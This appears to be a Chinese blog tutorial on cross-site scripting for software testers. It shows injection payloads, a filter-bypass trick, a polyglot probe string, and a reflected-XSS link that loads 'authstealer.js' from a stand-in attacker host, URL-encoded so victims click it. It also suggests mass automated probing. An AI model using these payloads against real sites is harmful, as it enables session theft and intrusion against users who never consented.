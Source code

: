 ```yaml
---
weight: 1
title: "手把手教你xss攻击"
date: 2024-03-08T09:03:21+08:00
lastmod: 2024-03-08T09:03:21+08:00
draft: false
author: "乙醇"
authorLink: "https://github.com/easonhan007"
description: "有手就会"
images: []
resources:
  - name: "featured-image"
    src: "https://images.unsplash.com/photo-1658954382154-fe7d69fdcf78?w=300"

tags: []
categories: ["测试工具", "软件测试基础"]

lightgallery: true

toc:
  auto: false
---
```


一句话解释 xss 就是通过提供恶意的用户输入让浏览器执行恶意的 JavaScript 代码。

### 最简单的例子

```jsx
<div>
    <h1> Welcome {your input} </h1>
</div>
```

这里页面希望你通过文本框输入自己名字，然后把你输入的名字展示出来。假如你输入的名字是:`<script>alert('XSS')</script>`

这时候浏览器将解析下面的 html 代码

```jsx
<div>
  <h1>
    {" "}
    Welcome <script>alert('XSS')</script>
  </h1>
</div>
```

script 标签里的 js 代码就被执行了，这就是一个最简单的 xss。

### 复杂一点点的例子

```jsx
<div>
    <h1> Welcome <input value="{your input}"</h1>
</div>
```

这时候如果你输入`<script>alert('XSS')</script>` 那么将得到类似下面的结果

```jsx
<div>
    <h1> Welcome <input "<script>alert('XSS')</script>"</h1>
</div>
```

因为 script 标签被包含在双引号里，浏览器会认为这是一个普通的字符串，所以不会执行 js 代码。不过如果你输入`“"><script>alert('XSS');</script>”` 那么你将会打开一个新的局面

```jsx
<div>
    <h1> Welcome <input ""><script>alert('XSS')</script></h1>
</div>
```

input 标签被强行闭合，script 标签成功上位。这时候 js 代码又可以执行了。

### 再来个例子

```jsx
<script>document.getElementsByClassName('name')[0].innerHTML='{input}';</script>
```

这个例子里我们要想办法在现有的代码中插入恶意的 js 代码，这里需要用到 2 点小知识

- js 代码中`;`号可以结束一行语句
- js 代码中`//`表示后面的所有内容都是注释，可以被忽略掉

因此如果我们输入的是`';alert('XSS');//` 那么中间的 alert 语句是可以执行的

```jsx
<script>
  document.getElementsByClassName('name')[0].innerHTML='';alert('XSS');//'
</script>
```

前面的单引号被第 1 个单引号匹配并终结，后面的分号直接结束了这一句，而后面的那个单引号则被`//` 注释掉了，所以中间的 alert 代码是可以顺利执行的。

### 还有例子

有时候页面会过滤掉一些危险的关键字，比如 script 标签，这时候可以试试构造下面的数据

```jsx
<sscriptcript>alert('XSS');</sscriptcript>
```

当 script 标签被过滤掉之后，html 代码如下

```jsx
<script>alert('XSS');</script>
```

恶意代码可以顺利执行。

### 探针

如果每次见招拆招的话，那么攻击的效率是不太高的，这时候就可以试试下面的这种标准化探针字符串，如果页面存在一些基本的 xss 漏洞的话，下面的代码是可以被顺利执行的。

```jsx
jaVasCript: /*-/*`/*\`/*'/*"/**/ /* */ onerror = alert("XSS"); //%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e
```

我们可以使用自动化的工具在页面上所有可以输入的地方批量植入探针，这样就可以大规模高效率的进行攻击了。

### 非持久化的 xss

上面的例子是持久化的 xss，简单来说就是需要把用户输入的内容保存到数据库里然后在页面进行回显，在现实中其实还有一种不需要持久化就进行 xss 攻击的例子。

下面的例子来自维基百科。

假设我们有一个搜索页面，该页面会回显 url 里的 q 参数，比如`http://bobssite.org/search**?q=**<script>alert('xss');</script>` \*\*\*\*q 参数后面的内容会回显到搜索框里，这样就可以把搜索结果简单的复制给其他人了。然而如果我们搜索的内容是带恶意脚本的 script 标签的话，在标签没有被转义的情况下，页面就会在回显的时候直接执行标签里的脚本了。

这种方式还可以这样玩，比如

```jsx
http://bobssite.org/search?q=puppies<script%20src="http://mallorysevilsite.com/authstealer.js">
```

这样就可以执行 authstealer.js 脚本了，后面的事情有点复杂，就不过多描述了。

最后为了不引起被害者的警觉，我们还可以把 url 中的内容编码一下

```jsx
http://bobssite.org/search?q=puppies%3Cscript%20src%3D%22http%3A%2F%2Fmallorysevilsite.com%2Fauthstealer.js%22%3E%3C%2Fscript%3E
```

这样被害人收到这样链接的时候就更有可能随手一点了。

### 总结

xss 攻击是最常见的前端攻击方式，一般情况下常用的前端框架都有安全机制尽量避免 xss 的发生，但武器库里有防身的工具，不见得所有的开发者都会熟练应用，因此 xss 漏洞始终是有可能出现的。
